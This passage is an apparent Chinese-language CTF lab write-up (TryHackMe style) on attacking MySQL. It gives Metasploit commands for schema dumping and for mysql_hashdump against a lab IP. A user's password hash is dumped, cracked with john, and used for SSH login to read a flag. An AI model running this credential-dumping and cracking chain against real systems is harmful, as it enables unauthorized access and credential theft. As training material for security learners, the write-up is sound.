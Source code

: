 ![image-20230318172417960](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318172417960.png)

![image-20230318172529303](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318172529303.png)

![image-20230318172735807](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318172735807.png)

> 此处所选择的模块的完整名称为：auxiliary/scanner/mysql/mysql\_schemadump
>
> 最后一个表的表名为：x$waits\_global\_by\_latency

搜索`mysql_hashdump`模块，选择该模块、查看模块选项、设置选项的参数，最后执行该模块：

```bash
search mysql_hashdump
use 0
options
set PASSWORD password
set RHOSTS 10.10.63.194
set USERNAME root
run
```

![image-20230318173503606](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318173503606.png)

> 此处选择的模块的完整名称为：auxiliary/scanner/mysql/mysql\_hashdump
>
> 找到一个名为carl的用户，包含该用户及其密码hash值的完整字符串为：carl:\*EA031893AA21444B170FC2162A56978B8CEECE18

退出msf，我们将上图中的最后一条记录保存到本地机新建的hash.txt文件中-- `echo carl:*EA031893AA21444B170FC2162A56978B8CEECE18 > hash.txt`

![image-20230318173756260](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318173756260.png)

使用john进行hash破解（此处使用最简单的john语法即可）：`john hash.txt`

![image-20230318173815153](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318173815153.png)

> 破解hash值得到的密码为：doggie

使用hash破解得到的登录凭据，通过SSH登陆目标机，查看目标文本文件的内容：

```bash
ssh carl@10.10.63.194
#输入密码：doggie
ls
cat MySQL.txt
```

![image-20230318173957515](https://c/Users/Vimalano2ise/AppData/Roaming/Typora/typora-user-images/image-20230318173957515.png)

> 目标文本文件的内容为：THM{congratulations\_you\_got\_the\_mySQL\_flag} 。

![image-20230318162157958](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318162157958.png)

## 知识拓展

请访问以下参考链接（外网）：

* https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.html
* https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/

